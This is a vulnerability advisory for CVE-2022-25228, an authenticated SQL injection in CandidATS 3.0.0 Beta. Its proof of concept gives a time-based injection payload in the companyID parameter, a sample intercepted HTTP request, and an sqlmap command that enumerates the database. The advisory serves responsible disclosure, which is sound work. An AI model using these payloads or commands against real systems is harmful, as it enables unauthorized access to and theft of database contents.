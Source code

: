 ```yaml
---
slug: advisories/jackson/
title: CandidATS 3.0.0 - Authenticated SQL Injection
authors: Oscar Uribe
writer: ouribe
codename: jackson
product: CandidATS Version 3.0.0 Beta (Pilava Beta)
date: 2022-04-20 10:00 COT
cveid: CVE-2022-25228
severity: 6.3
description: CandidATS Version 3.0.0 - Authenticated SQL Injection
keywords: Fluid Attacks, Security, Vulnerabilities, Candidats, SQLi
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                          |
| --------------------- | -------------------------------------------------------- |
| **Name**              | CandidATS 3.0.0 - Authenticated SQL Injection            |
| **Code name**         | [Jackson](https://en.wikipedia.org/wiki/Michael_Jackson) |
| **Product**           | CandidATS                                                |
| **Affected versions** | Version 3.0.0 Beta (Pilava Beta)                         |
| **State**             | Public                                                   |
| **Release date**      | 2022-07-19                                               |

## Vulnerability

|                       |                                                                                  |
| --------------------- | -------------------------------------------------------------------------------- |
| **Kind**              | SQL injection                                                                    |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146) |
| **Remote**            | Yes                                                                              |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:L                                     |
| **CVSSv3 Base Score** | 6.3                                                                              |
| **Exploit available** | No                                                                               |
| **CVE ID(s)**         | [CVE-2022-25228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25228)  |

## Description

CandidATS Version 3.0.0 Beta allows an authenticated user to inject SQL
queries in `/index.php?m=settings&a=show` via the `userID` parameter,
in `/index.php?m=candidates&a=show` via the `candidateID`,
in `/index.php?m=joborders&a=show` via the `jobOrderID`
and `/index.php?m=companies&a=show` via the `companyID` parameter

## Proof of Concept

1. Log in to CandidATS with a user who has permissions
   to read job orders, candidates or companies.

2. Go to `index.php?m=joborders` (or any of the option above).

3. Uncheck the `Only My Companies` option.

4. Select any of the items listed and
   intercept the request with BurpSuite.

5. It is possible to inject sql sentences inside
   the companyID parameter, for example, the following
   request will make the database sleep for 5 seconds.

  ```http
  GET /candidATS/index.php?m=companies&a=show&companyID=2+or+sleep(5) HTTP/1.1
  ```

6. Save the intercepted request into a file.

  ```http
  GET /candidATS/index.php?m=companies&a=show&companyID=2 HTTP/1.1
  Host: 172.16.28.136
  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Connection: close
  Cookie: CATS=dji5p76l4ajdpubegkt552ma9n
  Upgrade-Insecure-Requests: 1
  ```

7. Run the following command from sqlmap in order
   to extract information from the database.

  ```bash
  $ sqlmap -r companyId.req -p companyID --dbs --batch
  ```

## Exploit

It is possible to use sqlmap in order to
extract information from the database

## Mitigation

This information will be released later according to our
[Responsible Disclosure Policy](../policy/).

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

**Vendor page** <https://candidats.net/forums/>

## Timeline

<time-lapse
  discovered="2022-04-19"
  contacted="2022-04-19"
  replied="2022-04-20"
  confirmed="2022-04-20"
  patched=""
  disclosure="">
</time-lapse>
